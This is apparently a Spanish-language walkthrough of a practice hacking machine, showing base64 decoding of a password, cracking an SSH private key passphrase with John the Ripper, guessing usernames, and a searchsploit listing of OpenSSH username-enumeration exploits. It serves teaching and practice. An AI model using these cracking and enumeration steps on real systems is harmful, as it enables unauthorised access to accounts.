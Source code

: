 <h2 id="Base64">Descifrando Data en Base64 y Hash</h2>

Vamos a copiar solamente la data de **base64** en un archivo:
```bash
nano text
cat text      
aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==
```

Y ahora, usemos el comando **base64** para ver si puede descifrar que es esta data:
```bash
cat text| base64 -d
heartbleedbelievethehype
```
Mmmmmm, a mi parecer, esto es una contraseña. ¿Será que es la contraseña para desencriptar la llave privada?, o ¿es la contraseña de un usuario?

Como no tenemos un usuario todavia, vamos a probar si es la contraseña para la llave privada.
```bash
john -w=diccionario.txt hash                 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Press 'q' or Ctrl-C to abort, almost any other key for status
heartbleedbelievethehype (id_rsa)     
1g 0:00:00:00 DONE (2023-04-21 15:06) 16.66g/s 16.66p/s 16.66c/s 16.66C/s heartbleedbelievethehype
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
Pefecto si es, ya tenemos una contraseña para el **SSH**, pero nos falta un usuario. 

Vamos a hacer lo que hicimos en la **máquina Nibbles**, a probar con todo.

<h2 id="Usuario">Buscando un Usuario Valido para Servicio SSH</h2>

Lo que vamos a probar como usuarios, serán los siguientes:
* valentine
* heart
* bleed
* heartbleed
* believe
* hype

Para probarlos, vamos a usar un Exploit que ya utilizamos una vez en la **máquina Blocky**, busquémoslo con **Searchsploit**:
```bash
searchsploit ssh enum    
----------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                       |  Path
----------------------------------------------------------------------------------------------------- ---------------------------------
OpenSSH 2.3 < 7.7 - Username Enumeration                                                             | linux/remote/45233.py
OpenSSH 2.3 < 7.7 - Username Enumeration (PoC)                                                       | linux/remote/45210.py
OpenSSH 7.2p2 - Username Enumeration                                                                 | linux/remote/40136.py
OpenSSH < 7.7 - User Enumeration (2)                                                                 | linux/remote/45939.py
OpenSSHd 7.2p2 - Username Enumeration                                                                | linux/remote/40113.txt
----------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```